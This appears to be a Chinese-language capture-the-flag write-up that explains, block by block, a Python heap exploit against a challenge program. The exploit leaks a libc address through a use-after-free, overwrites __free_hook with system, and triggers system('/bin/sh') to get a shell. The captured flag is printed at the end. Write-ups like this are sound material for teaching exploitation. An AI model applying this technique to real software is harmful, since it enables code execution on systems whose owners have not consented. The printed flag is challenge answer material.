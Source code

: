 ```python
handle_add(b"user0", b"1", 0x800, b"CCCC", b"x")
handle_add(b"user1", b"1", 0x20, b"CCCC", b"x")
```

​	创建两个用户，分别分配大块（0x800字节）和小块（0x20字节）的`intro`，为后续操作铺垫堆内存布局。

```python
handle_del(0, b"1")
_, _, intro_leak = handle_show(0, b"1")
```

​	删除用户0，释放其内存块，但`infos[0]`仍指向已释放的内存。通过`user_show`函数读取已释放内存中的数据，泄漏出`intro`字段的内容（内存地址信息）。

```python
offset = 0x1ecbe0
libc_base = u64(intro_leak[:8].ljust(8, b"\x00")) - offset

success(f"libc_base: {hex(libc_base)}")
# libc.base = libc_base
```

​	通过泄漏的数据计算libc基地址。假设泄漏的数据包含某个libc内的地址（如`__malloc_hook`），通过已知偏移量计算出libc基地址。

```python
handle_add(b"user2", b"1", 0x40, b"CCCC", b"x")
handle_add(b"user3", b"1", 0x40, b"CCCC", b"x")
```

​	创建两个新用户，分配大小为0x40字节的`intro`，进一步调整堆内存布局，为后续的堆覆盖做准备。

```python
handle_del(2, b"1")
handle_del(3, b"1")
```

​	删除用户2和3，释放相应的堆内存块。由于之前的UAF漏洞，`infos[2]`和`infos[3]`仍指向已释放的内存，等待被重用。

```python
handle_edit(3, b"1", p64(libc_base + libc.sym["__free_hook"]), b"x", b"x")
```

​	使用`user_edit`函数，覆盖用户3的`name`、`intro`和`motto`字段。这里将`intro`字段覆盖为`__free_hook`的地址，使得后续对`intro`的写操作实际上写入`__free_hook`。

```python
handle_add(b"user4", b"1", 0x40, b"CCCC", b"x")

handle_add(b"user5", b"1", 0x40, p64(libc_base + libc.sym["system"]), b"x")
```

​	创建用户4，分配新的堆内存块。创建用户5，利用之前覆盖的`__free_hook`地址，将`system`函数的地址写入`__free_hook`。

```python
handle_add(b"user6", b"1", 0x50, b"/bin/sh\x00", b"x")

handle_del(6, b"1")
```

​	创建用户6，其`intro`字段为`"/bin/sh\x00"`。删除用户6，触发`free("/bin/sh")`，由于`__free_hook`已被覆盖为`system`，实际执行的是`system("/bin/sh")`，从而获取shell。



![image-20241203220706926](https://bu.dusays.com/2024/12/03/674f10971bd10.png)

You flag: ssec2023{1_L0ve_tyP3_COnFU510N_s0_muCh|de63868c}
